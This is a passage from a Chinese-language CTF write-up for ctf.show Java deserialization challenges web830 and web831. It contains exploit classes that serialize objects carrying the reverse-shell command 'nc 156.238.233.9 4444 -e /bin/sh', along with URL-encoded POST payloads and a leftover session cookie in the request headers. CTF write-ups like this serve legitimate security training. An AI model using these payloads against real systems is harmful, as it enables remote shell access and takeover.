Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://1b3a1e81-e9de-47ff-8ad4-c2133ea38707.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1

userData=%72%4f%30%41%42%58%4e%79%41%42%64%6a%62%32%30%75%59%33%52%6d%63%32%68%76%64%79%35%6c%62%6e%52%70%64%48%6b%75%56%58%4e%6c%63%74%4c%56%6b%4b%57%68%43%2b%39%72%41%67%41%42%54%41%41%49%64%58%4e%6c%63%6d%35%68%62%57%56%30%41%42%4a%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%4e%30%63%6d%6c%75%5a%7a%74%34%63%48%51%41%49%47%35%6a%49%44%45%31%4e%69%34%79%4d%7a%67%75%4d%6a%4d%7a%4c%6a%6b%67%4e%44%51%30%4e%43%41%74%5a%53%41%76%59%6d%6c%75%4c%33%4e%6f
```

## web830

写了一个父类



但是其中子类是继承了父类的，所以直接赋值就好了

```java
package com.ctfshow.entity;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class exp {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException {
        User user = new User("baozongwi");
        user.secret="nc 156.238.233.9 4444 -e /bin/sh";
        byte[] bytes = null;
        ByteArrayOutputStream bo = new ByteArrayOutputStream();
        ObjectOutputStream oo = new ObjectOutputStream(bo);
        oo.writeObject(user);
        bytes = bo.toByteArray();
        bo.close();
        oo.close();
        byte[] userData  = Base64.getEncoder().encode(bytes);
        for(int x= 0 ; x < userData.length; x++) {
            System.out.print((char)userData[x]);
        }
    }
}
```

```http
POST / HTTP/1.1
Host: e1814f42-3d1d-412a-a400-35490e29af93.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

userData=%72%4f%30%41%42%58%4e%79%41%42%64%6a%62%32%30%75%59%33%52%6d%63%32%68%76%64%79%35%6c%62%6e%52%70%64%48%6b%75%56%58%4e%6c%63%6d%67%63%70%43%6a%52%70%39%35%45%41%67%41%42%54%41%41%49%64%58%4e%6c%63%6d%35%68%62%57%56%30%41%42%4a%4d%61%6d%46%32%59%53%39%73%59%57%35%6e%4c%31%4e%30%63%6d%6c%75%5a%7a%74%34%63%67%41%62%59%32%39%74%4c%6d%4e%30%5a%6e%4e%6f%62%33%63%75%5a%57%35%30%61%58%52%35%4c%6b%4a%68%63%32%56%56%63%32%56%79%67%6b%72%64%2f%6a%33%33%6c%44%6b%43%41%41%46%4d%41%41%5a%7a%5a%57%4e%79%5a%58%52%78%41%48%34%41%41%58%68%77%64%41%41%67%62%6d%4d%67%4d%54%55%32%4c%6a%49%7a%4f%43%34%79%4d%7a%4d%75%4f%53%41%30%4e%44%51%30%49%43%31%6c%49%43%39%69%61%57%34%76%63%32%68%30%41%41%6c%69%59%57%39%36%62%32%35%6e%64%32%6b%3d
```

## web831

不准序列化`User()`，这和没过滤一样的

```java
package com.ctfshow.entity;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class exp {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException {
        BaseUser user = new BaseUser();
        user.secret="nc 156.238.233.9 4444 -e /bin/sh";
        byte[] bytes = null;
        ByteArrayOutputStream bo = new ByteArrayOutputStream();
        ObjectOutputStream oo = new ObjectOutputStream(bo);
        oo.writeObject(user);
        bytes = bo.toByteArray();
        bo.close();
        oo.close();
        byte[] userData  = Base64.getEncoder().encode(bytes);
        for(int x= 0 ; x < userData.length; x++) {
            System.out.print((char)userData[x]);
        }
    }
}
```

这应该是我做过最简单的反序列化了

## 小结

发现了很多有意思的东西，特别是少量字符写webshell哪里，我觉得都可以作为一周极限大挑战的内容了，非常好玩有意思，同时也发现自己的脚本还真是一坨，虽然勉强够用
